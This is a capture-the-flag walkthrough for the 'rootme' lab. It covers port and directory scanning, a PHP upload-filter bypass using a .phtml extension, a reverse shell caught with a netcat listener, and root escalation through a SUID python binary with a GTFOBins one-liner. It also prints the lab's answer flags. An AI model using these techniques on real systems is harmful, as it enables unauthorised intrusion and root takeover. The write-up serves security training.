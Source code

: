 ## rootme

### Tasks

1. **Deploy the machine**

- Just deploy the machine. 

2. **Reconnaissance**

- How many ports are open?

This task is quite easy, a default nmap scan would suffice.
`nmap $IP`
There are 2 ports open, port 22 and port 80. Port 22 is generally used for SSH and port 80 is used for HTTP Web Servers.

- What version of Apache is running? 

We can use nmap with -sV (it determines service/version info running on open ports) option. To make things faster we can also specify the ports 80 and 22 (using -p option).
`nmap -sV -p 80, 22 $IP`
Apache Version:- 2.4.29

- What service is running on port 22?

Service scan using nmap will tell us the service running on port 22 is SSH.

- Find directories on the web server using the GoBuster tool.

- What is the hidden directory?

Gobuster is used to bruteforce hidden directories on web servers based on some wordlist. If you don't have a wordlist, you can download it [here](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt). Alternatively, download it directly from the terminal,
```bash 
wget https://raw.githubusercontent.com/digination/dirbuster-ng/master/wordlists/common.txt
```
`gobuster dir --url $IP --wordlist $WORDLIST_PATH`
Gobuster finds some directories like `/panel/` and `/uploads/`. `/panel/` is the answer to the task.

3. **Getting a Shell**

Now we have to find the user flag, it is in some file named user.txt (mentioned in task). 

Going on the /panel endpoint, we find that we can upload files there. At this point, the first thing that hits the mind is that their must be a file upload vulnerability. So we uploaded a file with .php extension and the website refuses to accept the file. So we tried changing the extension to .png.php, .php3, .phtml. Changing the extension to .phtml bypasses the security check and our file is uploaded. (File with .php3 extension is also uploaded but it is not executed on the web server).

Now we can use this vulnerability and get a reverse shell. We can use php reverse shell script by pentestmonkey to achieve this. It can be find [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Don't forget to change the ip to your ip and port on which you want to listen.

Upload the php-reverse-shell script to the web server (with .phtml extension). 

Listen on the port(for example:1234) for incoming connections.
```bash
nc -lnvp 1234
```

Execute the script on the server by visiting `/uploads/<REV_SHELL_SCRIPT.phtml>`.

Check the nc session. Bingo, you get the reverse shell.

The user flag is in `/var/www/user.txt`. You can use the `find` command to find the file.
```bash
find / -name user.txt 2>/dev/null
```
The flag:- `THM{y0u_g0t_a_sh3ll}`

4. **Privilege escalation**

- Search for files with SUID permission, which file is weird?
We can find files with suid permission using the find command:-
```bash
find / -perm -u=s 2>/dev/null
```
Ans:- `/usr/bin/python`

- Find a form to escalate your privileges.

We find that python has setuid bit set and the owner is root. We can use this to escalate our privileges. Searching about the vuln at gtfobins, we find that it can be exploited easily:-
```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
This gives us the root shell. Going to the root home directory we find the flag in root.txt.

- root.txt

The flag:- `THM{pr1v1l3g3_3sc4l4t10n}`

